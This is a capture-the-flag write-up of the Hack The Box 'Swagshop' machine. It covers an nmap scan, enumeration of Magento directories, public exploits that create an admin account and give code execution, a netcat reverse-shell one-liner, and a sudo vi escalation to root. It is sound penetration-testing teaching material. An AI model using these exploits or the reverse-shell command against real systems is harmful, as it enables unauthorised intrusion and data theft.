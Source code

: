 ```yaml
---
layout: single
title: Swagshop - Hack The Box
excerpt: "TBA"
date: 2019-12-31
classes: wide
header:
  teaser: /assets/images/htb-writeup-swagshop/swagshop_logo.png
categories:
  - hackthebox
  - infosec
tags:
  -
---
```


![](/assets/images/htb-writeup-swagshop/swagshop_logo.png)

TBA

## Summary

- A Vulnerable Magento CMS 1.9.0 instance is running and we can use a CVE to create an admin account
- We then use another exploit to get RCE and a shell on the box
- `vi` is in the sudoers file for www-data and we can execute a shell as root from withing `vi` with `:!/bin/sh`

## Tools/Blogs used

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

## Detailed steps

### Portscan

```
# nmap -sC -sV -p- 10.10.10.140
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-11 20:52 EDT
Nmap scan report for swagshop.htb (10.10.10.140)
Host is up (0.011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website enumeration

The website is running the Magento CMS:

![](/assets/images/htb-writeup-swagshop/webpage.png)

Gobuster finds the directories associated with Magento:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 50 -u http://10.10.10.140
/app (Status: 301)
/downloader (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
=====================================================
2019/05/11 20:57:10 Finished
=====================================================
```

Indexing is on for those directories:

![](/assets/images/htb-writeup-swagshop/indexing.png)

We have access to `/app/etc/local.xml` which contains the encrypted database password and the encryption key.

![](/assets/images/htb-writeup-swagshop/local.png)

I could not find any public tool to decrypt the MySQL root password and because this is a 20 pts box it's probably some generic CVE exploit that we have to use.

### Getting a shell

A quick look with `searchsploit magento` shows the two interesting exploits:

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

The `Magento eCommerce - Remote Code Execution` exploit creates a new admin account with `forme/forme` as credentials. We just need to modify the target and the exploit and launch it to get an admin account:

```
# python 37997.py
WORKED
Check http://10.10.10.140/index.php/admin with creds form
```

I can now log in to the admin panel:

![](/assets/images/htb-writeup-swagshop/admin1.png)

![](/assets/images/htb-writeup-swagshop/admin2.png)

I'll use the other exploit `Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution` to gain remote code execution. I need to change the `username`, `password`, and `install_date` parameters. The `install_data` is in the `local.xml` I found earlier.

```
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

Launching exploit to spawn a reverse shell:

```
python 37811.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9999 >/tmp/f"

# nc -lvnp 9999
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:44376.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls
haris
$ cat haris/user.txt
a44887...
```

### Privesc

Priv is obvious, I see that `www-data` can launch `vi` as root. I know I can spawn a shell from within `vi` and it'll run as root because of sudo.

```
$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/home$ sudo /usr/bin/vi /var/www/html/pwn -c ':!/bin/sh'

# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
c2b087...

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
#
```